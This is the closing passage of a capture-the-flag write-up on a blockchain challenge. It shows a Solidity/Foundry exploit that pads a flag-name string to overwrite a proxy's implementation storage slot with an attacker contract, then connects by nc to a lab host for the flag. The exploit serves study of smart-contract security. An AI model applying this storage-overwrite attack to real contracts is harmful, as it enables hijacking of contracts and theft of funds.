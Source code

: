 ```solidity
        ID: 56488061
        String type: long */

        // full 141 slot
        bytes memory payload = hex"";
        for (uint i; i < 141; i++){
            payload = bytes.concat(payload, hex'0000000000000000000000000000000000000000000000000000000000000000');
        }
        payload = bytes.concat(payload, bytes32(uint256(uint160(address(soluce)))));

        cryptoFlags.setFlagName(id, string(payload));

        bytes32 addr = vm.load(address(cryptoFlags), bytes32(0xb6753470eb6d4b1c922b6fc73d6f139c74e8cf70d68951794272d43bed766bd6));
        require(address(addr) == address(soluce), "impl addr didn't change");

        vm.stopBroadcast();

        require(setup.isSolved(), "did not solve :'(");
    }
}

contract Soluce {

    function isSolved() external pure returns (bool) {
        return true;
    }

}
```

Running the exploit gave us the flag:

```bash
nc 10.244.0.1 1234
hxp{n3v3r_7ru57_pr3c0mpu73d_v4lu35}
```

Thanks for reading! Looking forward to sharing more blockchain exploitation and reverse engineering challenges with you in the future.

